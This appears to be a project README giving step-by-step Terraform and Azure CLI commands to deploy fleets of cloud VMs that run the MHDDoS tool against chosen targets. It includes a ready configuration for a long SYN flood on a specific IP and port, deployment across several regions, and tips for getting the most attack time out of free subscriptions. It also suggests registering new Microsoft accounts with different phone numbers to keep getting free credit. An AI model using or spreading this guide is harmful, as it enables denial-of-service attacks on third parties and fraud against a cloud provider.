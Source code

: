# Overview
Here I use Terraform to automate Azure VM deployment which run MHDDOS docker container.
You can deploy VMs to any Azure region, I prefer those that are located in Asia.   
- Default region - `koreacentral` (Central Korea)
- Default VM count - `4` (In free Azure subscription it's allowed only 4 vCPUs in a single region)
- Default VM SKU - `Standard_F1s` (1 vCPU, 2 GiB RAM, accelerated networking - ON, price around 0.05 USD/hour)
- Default resource group - `mhddosGroup`  

To change default values you can amend the`variables.tf` file, to customize through terminal:
```shell
terraform apply ... -var="<variableName>=<variableValue>"
```

# Prerequisites

You must have a Microsoft Azure account, it's better off using a free subscription (200 USD for 30 days).
Also, installed azure CLI and terraform tools are required. In general, udp/tcp/dns mhddos attacks
are network intensive so your free subscription will be suspended after a max of 24 hours of active attacks. SYN mhddos attack doesn't require many network resources thus you can use your subscription
longer.  
After your subscription is over you can register a new Microsoft account and apply for a new free Azure
subscription. The main rule here is to specify different phone number. If you have any other ideas
or real experience on creating multiple Microsoft Azure free accounts - feel free to describe this here using a pull request.

# Getting started

1. Log in Azure
```shell
az login
```
2. Initialize terraform
```shell
terraform init
```
2. Select target and type of attack by changing in `cloud-init.yaml` the `runcmd` attribute.  
`docker run --name mhddos --rm -d djebos/mhddos:latest` command is static and mustn't be changed. All your 
customizations must follow this command as in example below:

```yaml
# TCP syn flood attack on ip 15.61.23.9, port 53, 100 threads, duration 999999 seconds
runcmd:
  - docker run --name mhddos --rm -d djebos/mhddos:latest syn 15.61.23.9:53 100 999999
# here syn 15.61.23.9:53 100 999999 is your attack configuration that fully compliant with original MHDDOS
```
3. Deploy to the specified azure region (you must be logged in through `az login`). Examples:  
```shell
terraform apply -state india.tfstate -var="location=southindia" -var="resource_group_name=mhddosIndia"
terraform apply -state korea.tfstate -var="location=koreacentral" -var="resource_group_name=mhddosKorea"
terraform apply -state japan.tfstate -var="location=japaneast" -var="resource_group_name=mhddosJapan"
```
4. Verify after a couple of minutes on azure portal the load of VMs' CPUs. It must be around 100%
5. Stop attack and destroy VMs. Examples:
```shell
terraform destroy -state india.tfstate
terraform destroy -state korea.tfstate 
terraform destroy -state japan.tfstate 
```
# Troubleshooting
Your attack could fail due to numerous reasons: wrong configuration, ip isn't reachable etc. Therefore, you 
have to connect to your VMs and figure things out. 
1. Find out the target VM public ip through Azure Portal or using terminal
```shell
terraform output -state <your_state_file>.tfstate instancePublicIPs
```
2. Export a private key to a file:
```shell
terraform output -raw -state <your_state_file>.tfstate tls_private_key > key.pem
```
3. Add read access:
```shell
chmod 400 key.pem
```
4. Connect via SSH:
```shell
ssh -i key.pem azureuser@<your_vm_IP>
```
5. Check a status of the `mhddos` docker container:
```shell
sudo docker ps
```